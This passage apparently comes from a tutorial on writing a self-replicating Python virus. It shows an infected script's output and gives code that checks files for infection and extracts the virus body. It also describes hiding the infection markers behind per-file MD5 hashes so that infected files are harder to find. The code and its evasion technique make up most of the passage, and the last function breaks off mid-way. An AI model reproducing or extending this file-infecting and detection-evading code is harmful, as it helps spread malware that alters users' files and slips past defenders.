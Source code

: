 As you can see, the program still does whatever it was expected to do (extract some random numbers) but only after having executed our virus, which has spread to other `*.py` files in the same directory and has executed the payload function. Now, if you look at the `[hello.py](http://hello.py)` file, you will see that it has been infected as well, as we can see running it:

```bash
/playgrounds/python/first ❯ python hello.py                                                                            02:40:01 PM
We are sick, fucked up and complicated
We are chaos, we can't be cured
hello world
```

## Trying to hide the virus code a little more

Now, even if this virus could be potentially dangerous, it is easily detectable. You don't have to be Sherlock Holmes to recognize a virus that is written in plain text and starts with `# begin-virus`, right? 

So what can we do to make it a little harder to find?

Not much more, since we're writing it in Python and Python is an interpreted language... however, maybe we can still do something.

For example, wouldn't it be better if we could consider as infected any single file that contains the md5 hash of its name as a comment? 

Our virus could start with something like `# begin-78ea1850f48d1c1802f388db81698fd0` and end with something like `# end-78ea1850f48d1c1802f388db81698fd0` and that would be different for any infected file, making it more difficult to find all the infected files on the system.

So our `get_content_if_infectable()` function could be modified like this:

```python
def get_content_if_infectable(file, hash):
    # return the content of a file only if it hasn't been infected yet
  data = get_content_of_file(file)

  for line in data:
    if hash in line:
      return None

  return data
```

Obviously, before calling it you should calculate the hash of the file you're going to infect like this:

```python
hash = hashlib.md5(file.encode("utf-8")).hexdigest()
```

and also the `get_virus_code()` function should be modified to look for the current script hash:

```python
def get_virus_code():
  # open the current file and returns the virus code, that is the code between the
  # begin-{hash} and the end-{hash} tags
  virus_code_on = False
  virus_code = []

  virus_hash = hashlib.md5(os.path.basename(__file__).encode("utf-8")).hexdigest()
  code = get_content_of_file(__file__)

  for line in code:
    if "# begin-" + virus_hash in line:
      virus_code_on = True

    if virus_code_on:
      virus_code.append(line + "\n")
```